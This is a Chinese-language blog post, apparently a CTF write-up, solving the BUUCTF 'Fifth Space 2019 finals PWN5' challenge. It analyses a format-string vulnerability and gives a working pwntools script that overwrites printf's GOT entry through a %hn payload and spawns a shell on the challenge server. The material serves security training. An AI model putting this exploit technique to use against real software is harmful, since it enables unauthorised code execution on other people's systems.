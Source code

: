 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      BUUCTF 第五空间PWN5				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```


# 第五空间2019 决赛PWN5

## 考点

- 格式化字符串漏洞

## 解题过程

1. 首先使用`checksec`工具查看基本信息

![checksec](/img/posts/2023-10-23-第五空间2019-决赛PWN5/images/checksec.png)

​		为32位，canary，dep防护

2. 使用ida工具进行静态分析。

`main`

![main](/img/posts/2023-10-23-第五空间2019-决赛PWN5/images/main.png)

​		main函数主要代码如上图所示，可以看见`print((int)v7)`存在格式化字符串输出漏洞，因此可以考虑进行利用（**注：由于输入read限制了输入长度，导致无法通过泄漏canary方法来进行栈溢出攻击。**）

3. 构造python脚本如下，主要思路为修改printf的got表plt地址为要执行的代码地址（若开启full relro则无法使用），然后再代码执行到下一次调用printf函数时会转去执行目标代码。获得shell。

```python
from pwn import *

context(arch="i386", log_level="debug")
# p = process("./pwn")
p = remote("node4.buuoj.cn", 29338)

elf = ELF("./pwn")
printf_got = elf.got["printf"]
info(printf_got)
vuln_1 = str(0x0804)
vuln_2 = str(0x931A-0x0804)

payload = flat(b'%', vuln_1, b'c',b'%17$hn', b'%', vuln_2, b'c', b'%18$hn')
payload = payload.ljust(28, b'\x00')
payload = flat(payload, printf_got+2, printf_got)
# gdb.attach(p, 'b *0x080492BC')
p.sendlineafter(b'your name:', payload)
p.recvuntil(b"Hello,")

p.interactive()
```

## 结果

![result](/img/posts/2023-10-23-第五空间2019-决赛PWN5/images/result.png)
